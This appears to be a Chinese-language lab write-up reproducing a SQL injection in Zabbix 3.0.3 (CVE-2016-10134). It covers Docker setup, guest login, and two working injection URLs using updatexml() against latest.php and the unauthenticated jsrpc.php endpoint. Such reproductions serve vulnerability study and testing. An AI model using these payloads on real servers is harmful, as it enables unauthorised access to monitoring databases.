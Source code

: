 # zabbix latest.php SQL注入漏洞 CVE-2016-10134

## 漏洞描述

zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

## 环境搭建

Vulhub执行如下命令启动zabbix 3.0.3：

```
docker-compose up -d
```

执行命令后，将启动数据库（mysql）、zabbix server、zabbix agent、zabbix web。如果内存稍小，可能会存在某个容器挂掉的情况，我们可以通过`docker-compose ps`查看容器状态，并通过`docker-compose start`来重新启动容器。

## 漏洞复现

访问`http://your-ip:8080/index.php`，用账号`guest`（密码为空）登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

```
zbx_sessionid=cb4f5e3307ffbca669d1a14be14dc1e0
```

![image-20220302233506525](./images/202203022335590.png)

将这16个字符作为sid的值，访问`http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：

![image-20220302233802973](./images/202203022338075.png)

这个漏洞也可以通过jsrpc.php触发，且无需登录：`http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：

![image-20220302233854678](./images/202203022338774.png)

